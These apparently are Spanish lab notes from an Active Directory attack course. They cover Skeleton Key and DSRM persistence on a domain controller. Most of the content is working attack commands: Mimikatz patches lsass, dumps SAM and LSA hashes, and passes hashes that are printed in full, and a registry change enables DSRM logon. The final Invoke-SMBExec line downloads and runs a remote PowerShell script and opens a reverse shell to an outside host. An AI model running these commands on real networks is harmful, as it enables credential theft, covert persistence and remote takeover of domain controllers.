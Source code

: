 ..** startoffset momento de inicio del ticket en minutos
..** endin expiración del ticket en minutos por defecto son 10 años, el AD los crea de 600 minutos (10 horas)
..** renewmax periodo máximo de renovación por defecto 10 años, el AD lo pone a 100800 (7 dias)
..** Se puede lanzar sobre un usuario sin ningun tipo de permisos sobre la máquina o dominio (¿AV?)

## Skeleton Key
Ataque que parchea el proceso lsass en el DC y permite que cualquier usuario se logue en el dominio con una contraseña predefinida.  Este método de persistencia se pierde cuando el DC es reiniciado.

..* `Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcor-pdc.dollarcorp.moneycorp.local` --> la contraseña que pone es "mimikatz"
..** Enter-PSSession -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Credentials dcorp\administrator
Si el proceso está protegido puedes hacerlo cargando el driver mimidriv.sys localmente en el dc. Mucho más ruidoso. Pag. 128.

## DSRM - Directory Services Restore Mode
Es la contraseña del usuario Administrator (local) en el DC.
Es una contraseña necesaria para promocionar a un servidor como controlador de dominio, por eso es una contraseña que rara vez es cambiada y es un buen metodo de persistencia.
..* `Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'`
Para hacerlo remotamente:
Con el pth de administrator podemos ejecutar:
..* `Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername dcorp-dc`

Sacamos el hash de administrator: a102ad5753f4c441e3af31c97fad86fd
Para comprobar que es diferente vemos que con: 
..* `Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc`
Sacamos el hash: af0686cc0ca8f04df42210c9ac980760, se ve que son usuarios diferentesm uno es local y el otro de dominio.

Abrimos una sesión con el DC con el pth de administrator: 
..* `Enter-PSSession -ComputerName dcorp-dc`
Y cambiamos el registro: `New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD`  --> Si da error --> `Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2`

Ahora podremos hacer un pth con el hash local:

..* `Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"'`

Hay que fijarse que el dominio es el DC no es el dominio ya que vamos a logarnos de manera local. Para acceder al DC debemos ejecutar codigo directamente en el,  PSSession no funciona ya que va a preguntar a kerberos y el no conoce ese hash e Invoke-Command pasa lo mismo.
https://github.com/Kevin-Robertson/Invoke-TheHash/blob/master/Invoke-SMBExec.ps1 permite utilizar un hash para ejecutar comandos en una máquina remota.
 
..* `Invoke-SMBExec -Target 172.16.2.1 -Domain dcorp-dc -Username Administrator -Hash a102ad5753f4c441e3af31c97fad86fd -Command "powershell.exe -Exec Bypass -Command ""& iex (iwr http://172.16.100.46/Invoke-PowerShellTcp.ps1 -UseBasicParsing); Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.46 -Port 443"""`  --> `powercat -l -p 443 -v -t 1024`
